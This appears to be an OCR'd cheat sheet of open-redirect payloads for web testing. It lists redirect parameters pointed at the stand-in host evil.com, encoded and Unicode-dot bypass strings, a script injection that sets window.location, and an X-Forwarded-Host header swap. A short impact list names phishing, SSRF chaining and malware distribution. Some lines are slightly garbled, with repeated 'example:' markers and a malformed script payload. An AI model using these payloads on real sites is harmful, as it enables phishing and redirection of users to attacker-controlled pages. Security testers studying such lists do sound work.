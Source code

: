# open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com


2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 


3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection


4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com


5 - payload: {%E3%80%82}


===>>> example: ===>>> https://20.44.36.49//google%E3%80%82com





==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
